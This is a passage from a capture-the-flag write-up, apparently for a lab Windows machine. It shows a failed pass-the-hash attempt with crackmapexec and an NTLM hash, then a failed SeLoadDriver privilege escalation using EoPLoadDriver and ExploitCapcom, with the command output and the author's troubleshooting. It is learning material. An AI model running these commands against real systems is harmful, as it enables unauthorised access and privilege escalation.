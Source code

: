 ```
┌──(kali㉿kali)-[~]
└─$ crackmapexec smb 10.10.11.108 -u Administrator -H 34386a771aaca697f447754e4863d38a -x whoami
SMB         10.10.11.108    445    PRINTER          [*] Windows 10.0 Build 17763 x64 (name:PRINTER) (domain:return.local) (signing:True) (SMBv1:False)
SMB         10.10.11.108    445    PRINTER          [-] return.local\Administrator:34386a771aaca697f447754e4863d38a STATUS_LOGON_FAILURE
```

## SeLoadDriver Privilege
Looking at the output of ```whoami /priv```, we realize that SeLoadDriver privilge is enabled. Hence, we will try to do the ExploitCapcom exploit. However, we are unable to load the vulnerable driver into the server.

```
*Evil-WinRM* PS C:\temp> ./eoploadriver.exe System\CurrentControlSet\MyService C:\temp\Capcom.sys
[+] Enabling SeLoadDriverPrivilege
[+] SeLoadDriverPrivilege Enabled
[+] Loading Driver: \Registry\User\S-1-5-21-3750359090-2939318659-876128439-1103\System\CurrentControlSet\MyService
NTSTATUS: c00000e5, WinError: 0
*Evil-WinRM* PS C:\temp> ./ExploitCapcom.exe
[*] Capcom.sys exploit
[-] CreateFile failed
```
Looking at the output from loading the driver, we realized that it returns us with a NTSTATUS of c00000e5 instead of 00000000. Searching up the NTSTATUS code from [here](https://blog.actorsfit.com/a?ID=00650-4b388814-e627-418f-83d7-6b6c852d02a0), we realize that this corresponds to an STATUS_INTERNAL_ERROR.

Looking at one of the issues on github found [here](https://github.com/TarlogicSecurity/EoPLoadDriver/issues/1), this might be due to the fact that NTLoadDriver forbids any references to registry keys under HKEY_CURRENT_USER. Hence, we are unable to modify the registry keys to load the drivers.
